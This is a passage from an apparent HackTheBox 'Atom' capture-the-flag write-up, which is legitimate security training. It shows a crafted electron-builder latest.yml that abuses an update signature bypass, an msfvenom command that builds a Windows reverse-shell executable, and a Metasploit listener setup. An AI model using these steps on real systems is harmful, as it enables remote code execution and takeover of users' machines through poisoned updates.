 ![pdf.JPG](images/pdf.JPG)

[electron-builder](https://www.electron.build/) is acomplete solution to package and build a ready for distribution Electron app for macOS, Windows and Linux with “auto update” support out of the box.

By google search we can get the following reference [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) to get RCE using electron-builder update.

So by the reference above we need to create ```latest.yml``` file as follow:
```console
version: 1.2.3
path: http://10.10.14.14:8000/e'vyatar.exe
sha512: 835e9df4392c5204808bc23509f7b8d0213214bc1ac987bb2be4cfda91271d0490d5fd3d6381207edd7a5df5f4b824eaa0535559c13e4670a53dd1e0d10fd61a
```

Which ```e'vyatar.exe``` created using ```msfvenom```:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=5555 -f exe > e'vyatar.exe
```

The next step is to listen to port 5555 using metasploit:
```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.23
msf6 exploit(multi/handler) > exploit -j -Z
```
